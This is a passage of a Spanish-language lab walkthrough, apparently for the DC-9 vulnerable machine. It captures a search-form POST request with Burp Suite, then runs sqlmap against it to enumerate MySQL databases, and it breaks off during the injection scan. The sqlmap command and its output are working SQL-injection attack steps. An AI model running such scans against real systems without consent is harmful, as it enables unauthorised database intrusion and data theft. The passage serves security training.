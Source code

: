 La página ofrece cierta información importante sobre usuarios y una opción de login:

![img]({{ '/assets/images/DC9/dc9_01.png' | relative_url }}){: .center-image }*(Nombres de usuario)*

---

![img]({{ '/assets/images/DC9/dc9_02.png' | relative_url }}){: .center-image }*(Login)*

---

Al tener la página de búsqueda se puede usar `SQLMAP` para hacer un ataque de SQLi, como paso previo hay que hacer una captura del request HTTP que se hace al momento de hacer la búsqueda y guardarlo en un archivo (`request.req` o lo que sea), en este caso usé el módulo de proxy de `Burp Suite` y se ve así:

```console
POST /results.php HTTP/1.1
Host: 10.0.0.151
Content-Length: 10
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.0.0.151
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.0.0.151/search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

search=asd
```

---
### **SQLMAP**

Ahora vamos directamente a `SQLMAP` usando la request que acabamos de capturar cómo parámetro:

>**``sqlmap -r request.req --dbms=mysql --dbs``**

```console
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:02:28 /2020-07-22/

[12:02:28] [INFO] parsing HTTP request from 'request.req'
[12:02:29] [INFO] testing connection to the target URL
[12:02:29] [INFO] testing if the target URL content is stable
[12:02:29] [INFO] target URL content is stable
[12:02:29] [INFO] testing if POST parameter 'search' is dynamic
[12:02:29] [WARNING] POST parameter 'search' does not appear to be dynamic
[12:02:29] [WARNING] heuristic (basic) test shows that POST parameter 'search' might not be injectable
[12:02:29] [INFO] testing for SQL injection on POST parameter 'search'
[12:02:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
```